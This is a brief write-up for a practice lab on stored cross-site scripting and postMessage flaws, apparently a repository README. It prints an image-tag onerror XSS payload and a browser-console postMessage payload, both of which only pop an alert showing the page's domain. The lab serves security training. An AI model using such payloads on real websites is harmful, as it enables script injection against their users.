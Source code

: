# Stored XSS and postMessage

This lab is for postMessage and xss Vulnerability.

## WriteUp

xss : "  ` <img src=z onerror=alert(document.domain)> ` "  

postMessage : 

Open instect tab then goto debugger tab and open console there    
by pressing Esc key

then type payload : `window.postMessage('alert(document.domain)', '*') `
For XSS
